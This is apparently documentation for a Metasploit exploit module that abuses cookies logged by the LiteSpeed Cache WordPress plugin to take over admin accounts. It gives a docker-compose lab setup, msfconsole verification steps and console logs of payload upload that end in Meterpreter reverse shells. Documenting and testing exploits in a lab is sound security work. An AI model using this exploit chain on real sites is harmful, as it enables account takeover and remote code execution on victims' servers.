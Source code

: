 ## Vulnerable Application
This module exploits an unauthenticated account takeover vulnerability in LiteSpeed Cache, a Wordpress plugin that currently
has around 6 million active installations. In LiteSpeed Cache versions prior to 6.5.0.1, when the Debug Logging
feature is enabled, the plugin will log admin cookies to the /wp-content/debug.log endpoint which is accessible
without authentication. The Debug Logging feature in the plugin is not enabled by default. The admin cookies
found in the debug.log can be used to upload and execute a malicious plugin containing a payload.

### Setup
Spin up a WordPress container with the following docker-compose file:
```yml
version: '3.8'

services:
  db:
    image: mysql:latest
    volumes:
      - db_data:/var/lib/mysql
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: example_root_password
      MYSQL_DATABASE: wordpress
      MYSQL_USER: wordpress_user
      MYSQL_PASSWORD: example_password

  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    ports:
      - "8000:80"
    restart: always
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: wordpress_user
      WORDPRESS_DB_PASSWORD: example_password
      WORDPRESS_DB_NAME: wordpress
    volumes:
      - wordpress_data:/var/www/html

volumes:
  db_data:
  wordpress_data:
```

Download, install and activate the vulnerable LiteSpeed Cache plugin: https://downloads.wordpress.org/plugin/litespeed-cache.6.3.zip
Once installed a LiteSpeed menu bar item should appear on the left hand side of the application. When clicked a drop down
should appear. Select "ToolBox", then select "Debug Settings". Then switch the "Debug Log" feature to "On".

Sign out of WordPress and when you reauthenticate your admin cookie will be logged to /wp-content/debug.log

## Verification Steps

1. Start msfconsole
1. Do: `use multi/http/wp_litespeed_cookie_theft`
1. Set the `RHOST`, `LHOST` and `RPORT`
1. Run the module
1. Receive a Meterpreter session in the context of the user running the WordPress site.

## Scenarios
### ARCH_PHP Target - LiteSpeed Cache 6.3 - WordPress 6.4.3
```
msf6 exploit(multi/http/wp_litespeed_cookie_theft) > run
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] One or more potential admin cookies were found
[+] The target is vulnerable. Found and tested valid admin cookie, we can upload and execute a payload
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/qSNzhabMTP/OiDynMUetY.php...
[*] Sending stage (39927 bytes) to 192.168.1.67
[+] Deleted OiDynMUetY.php
[+] Deleted qSNzhabMTP.php
[+] Deleted ../qSNzhabMTP
[*] Meterpreter session 7 opened (192.168.1.67:4444 -> 192.168.1.67:64935) at 2024-09-11 23:18:14 -0700

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 29292f368fe3
OS          : Linux 29292f368fe3 6.10.4-linuxkit #1 SMP PREEMPT_DYNAMIC Mon Aug 12 08:48:58 UTC 2024 x86_64
Meterpreter : php/linux
```

### ARCH_CMD Target - LiteSpeed Cache 6.3 - WordPress 6.4.3
```
msf6 exploit(multi/http/wp_litespeed_cookie_theft) > run
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.1.67:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] One or more potential admin cookies were found
[+] The target is vulnerable. Found and tested valid admin cookie, we can upload and execute a payload
[*] Preparing payload...
[*] Uploading payload...
[*] Executing the payload at /wp-content/plugins/IVStOPtwuq/WvXecICkgw.php...
[*] Sending stage (3045380 bytes) to 192.168.1.67
[+] Deleted WvXecICkgw.php
[+] Deleted IVStOPtwuq.php
[+] Deleted ../IVStOPtwuq
[*] Meterpreter session 6 opened (192.168.1.67:4444 -> 192.168.1.67:64884) at 2024-09-11 23:14:49 -0700

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.22.0.3
OS           : Debian 12.5 (Linux 6.10.4-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```
